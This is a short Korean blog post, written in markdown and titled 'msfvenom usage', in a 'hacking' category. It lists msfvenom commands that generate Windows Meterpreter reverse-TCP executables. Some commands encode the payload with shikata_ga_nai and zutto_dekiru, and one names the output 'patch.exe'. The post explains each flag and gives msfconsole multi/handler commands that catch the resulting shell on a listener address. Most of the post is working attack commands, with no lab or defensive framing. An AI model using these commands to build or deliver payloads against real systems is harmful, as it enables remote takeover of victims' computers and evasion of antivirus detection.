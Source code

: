 ```yaml
---
emoji: 🔧
title: msfvenom 사용법
date: '2025-04-01 12:00:00'
author: 양원준
tags: 블로그 github-pages gatsby
categories: hacking
image: "./hacker.jpg"
---
```


## 📌 msfvenom 사용법
```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe lhost=192.168.123.112 lport=4444 -o /root/test.exe

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -f exe -o payload.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=(공격자ip) lport=(default=4444) -f exe -e x64/zutto_dekiru -i 3 -o /root/patch.exe

```
> -p : 페이로드 옵션을 설정    
 -o : 파일 경로와 파일명 지정    
 -e : 인코딩     
 -f : 파일 형식
 -a : 아키텍쳐     
 --platform : 플랫폼 설정\
 -i : 인코딩 횟수

```
msfconsle
use multi/handler
set payload windows/meterpreter/reverse_tcp or windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.123.112
set LPORT 4444

exploit -j
```
- - -

```toc
```